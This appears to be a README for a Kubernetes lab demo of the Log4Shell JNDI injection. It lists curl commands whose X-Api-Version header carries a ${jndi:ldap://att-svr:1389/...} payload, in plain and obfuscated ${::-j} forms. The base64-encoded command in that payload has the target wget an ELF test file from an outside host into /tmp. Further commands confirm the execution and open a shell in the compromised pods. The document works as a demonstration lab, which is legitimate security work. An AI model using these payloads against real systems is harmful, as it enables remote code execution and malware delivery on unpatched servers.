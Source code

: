<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Running the Demo](#running-the-demo)
- [Encode with base64 your command](#encode-with-base64-your-command)
- [Execute the attack without obfuscation](#execute-the-attack-without-obfuscation)
- [Execute the attack with obfuscation](#execute-the-attack-with-obfuscation)
- [Confirm that the code execution was successful](#confirm-that-the-code-execution-was-successful)
- [Connect to runnint pod](#connect-to-runnint-pod)
- [Delete file inside the container](#delete-file-inside-the-container)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

Running the Demo - KJ
---------------------

1. Get into the attacking host

```
kubectl exec -it pod-attack-machine -n dirty-net -- /bin/sh
```

2. Run the following two commands to execute the attack to the “vul-app1” container

```
curl -v vul-app1:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

Note: The command embedded in the HTTP header is

```
echo 'd2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK' | base64 -d wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/malware-sample
```

## Encode with base64 your command

```console
echo "touch /tmp/youHaveBeenPwned" | base64 -w0
dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==
```

## Execute the attack without obfuscation

console
```
curl $(kubectl get svc vul-app1 --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

```
curl $(kubectl get svc vul-app2 --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

## Execute the attack with obfuscation

console
```
curl $(kubectl get svc vul-app1 --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

```
curl $(kubectl get svc vul-app2 --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

## Confirm that the code execution was successful

console
```
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- ls -l /tmp
```

```
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- ls -l /tmp
```

## Connect to runnint pod

console

```
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- sh
```
```
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- sh
```

## Delete file inside the container

console
```
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- rm -f /tmp/youHaveBeenOwned
```

```
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- rm -f /tmp/youHaveBeenOwned
```
